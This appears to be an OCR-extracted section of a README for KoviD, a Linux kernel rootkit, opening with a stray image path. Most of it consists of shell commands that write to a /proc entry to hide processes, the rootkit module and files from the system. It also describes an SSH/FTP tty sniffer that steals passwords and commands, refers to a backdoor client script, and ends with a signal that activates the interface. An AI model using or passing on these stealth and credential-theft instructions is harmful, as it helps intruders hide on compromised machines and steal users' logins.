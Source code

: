  ```bash
echo "-bd <pid>" >/proc/867530
```

 Unhiding is the same as for regular tasks:

 ```bash
echo "<PID>" >/proc/867530
```

### Hide module

To hide the KoviD module, use the command:

```bash
echo -h >/proc/867530
```

In release mode, the module is hidden by default, and a key can be displayed by running

```bash
cat /proc/867530
```

### Hide/unhide/list files and directories

To hide a file or directory, use:

```bash
echo '-a name' >/proc/867530
```

To unhide use:

```bash
echo '-d name' >/proc/867530 
```

You can list hidden files and directory names with:

```bash
echo listname >/proc/867530
```

### SSH/FTP TTY sniffer

KoviD can snoop SSH sessions via tty keystrokes and steal passwords and commands effectively.

### Backdoors

For instructions, run

```bash
scripts/bdclient.sh
```

## 1 /proc interface turn on

kill -SIGCONT 31337
